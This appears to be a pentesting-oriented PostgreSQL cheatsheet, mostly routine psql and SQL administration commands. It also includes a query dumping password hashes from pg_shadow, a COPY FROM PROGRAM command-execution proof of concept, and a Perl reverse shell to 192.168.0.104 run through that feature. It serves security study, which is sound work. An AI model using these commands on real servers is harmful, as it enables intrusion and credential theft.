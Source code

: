 # PostgreSQL Cheatsheet

**Warning parts of this article were created with ChatGTP 3.5 and human consultation of the [PostgreSQL Documentation](https:--www.postgresql.org/docs/)**

```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \? -- Get Help
postgres=# \list                     -- list all databases
postgres=# \l                        -- Shortform List databases 
postgres=# \c                        -- use database
postgres=# \c <DATABASE>             -- use specific database
postgres=# \s                        -- command history
postgres=# \q                        -- quit
<DATABASE>=# \dt                     -- list tables from current schema
<DATABASE>=# \dt *.*                 -- list tables from all schema
<DATABASE>=# \dt+ -- show size and description
<DATABASE>=# \du                     -- list users roles
<DATABASE>=# \du+                    -- list users roles
<DATABASE>=# SELECT user;            -- get current user
<DATABASE>=# TABLE <TABLE>;          -- select table
<DATABASE>=# SELECT * FROM users;    -- select everything from users table
<DATABASE>=# SHOW rds.extensions;    -- list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    -- read credentials
<DATABASE>=# select * from TabLeNameHeRE -- Case insensitive
```

[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https:www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

#### More Administrative Commands

Creating and Managing Databases
```sql
-- Create a new database
CREATE DATABASE database_name;
-- Drop a database
DROP DATABASE database_name;
-- Create a new table
CREATE TABLE table_name (
    column_name1 datatype,
    column_name2 datatype,
    ...
);
```

Creating and Managing Databases 
```sql
-- Delete a table
DROP TABLE table_name;
-- Insert data into a table
INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...);
```

Querying Data 
```sql
-- Retrieve all records from a table
SELECT * FROM table_name;
-- Retrieve specific columns and filter results
SELECT column1, column2 FROM table_name WHERE condition;
-- Aggregate functions (e.g., SUM, AVG, COUNT)
SELECT AVG(column) FROM table_name;
-- Joining tables
SELECT column1, column2 FROM table1 JOIN table2 ON table1.column = table2.column;
```

Updating and Deleting
```sql
-- Update records
UPDATE table_name SET column = value WHERE condition;
-- Delete records
DELETE FROM table_name WHERE condition;
```

Indexes
```sql
-- Create an index
CREATE INDEX index_name ON table_name (column_name);
-- Drop an index
DROP INDEX index_name;
```

User Management
```sql
-- Create a new user
CREATE USER username WITH PASSWORD 'password';
-- Grant privileges to a user
GRANT privilege ON table_name TO username;
-- Revoke privileges from a user
REVOKE privilege ON table_name FROM username;
-- Change a user's password
ALTER USER username WITH PASSWORD 'new_password';
```

Backup and Restore
```bash
# Create a backup
pg_dump -h hostname -d database_name -U username -f backup.sql
# Restore from backup
psql -h hostname -d database_name -U username -f backup.sql
```


## References

[PostgreSQL Documentation](https:--www.postgresql.org/docs/)
[postgresqltutorial](https:--www.postgresqltutorial.com/postgresql-administration/postgresql-show-tables/)
[0xsyr0](https:--github.com/0xsyr0/OSCP#postgresql) 
[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)